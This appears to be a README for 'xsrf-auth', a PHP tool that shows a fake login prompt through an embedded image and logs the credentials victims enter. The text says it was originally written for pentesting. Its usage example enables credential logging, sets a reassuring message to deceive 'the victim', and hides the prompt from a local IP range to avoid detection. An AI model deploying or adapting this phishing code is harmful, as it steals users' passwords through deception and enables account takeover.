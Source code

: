 xsrf-auth
=========

Shows a WWW-Authenticate message on embedded image and saves user credentials to logfile. Originally written for pentest.


Example: 



require_once('imgauth.lib.php');

$auth = new imgauth;

//log user credentials
$auth->enable_log = true;

//message shown to the victim
$auth->message = "Please log in again. This is for your own security.";

//if accessed by these ip's, just display image
$auth->disable_pattern = "/^192\.168\.178.+$/";

//execute
$auth->exec();
